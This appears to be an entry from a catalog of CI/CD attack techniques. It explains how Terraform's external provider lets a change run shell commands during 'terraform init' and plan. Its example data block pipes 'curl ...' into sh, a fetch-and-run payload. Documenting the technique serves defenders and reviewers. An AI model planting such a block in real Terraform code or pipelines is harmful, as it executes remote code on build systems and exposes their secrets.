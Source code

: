 ```yaml
---
title: terraform
tags:
  - cli
  - input-file
  - eval-sh
references:
- https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/external
---
```


Most CI environments run `terraform init` before planning to ensure providers and modules are downloaded. This means that new changes that bring new providers, such as the external provider used to execute commands, Terraform will install the provider even though it's not part of the lockfile. By default, the lockfile will be modified and Terraform informs the user to commit its result.

The `hashicorp/external` provider has a data resource that allows executing commands and make the output available to Terraform. The command must output valid JSON on stdout.
```terraform
data "external" "cmd" {
  program = ["sh", "-c", "curl ... | sh >&2; echo {}"]
}
```

# Prior art / Credits

This was discussed in this article in 2021 https://alex.kaskaso.li/post/terraform-plan-rce
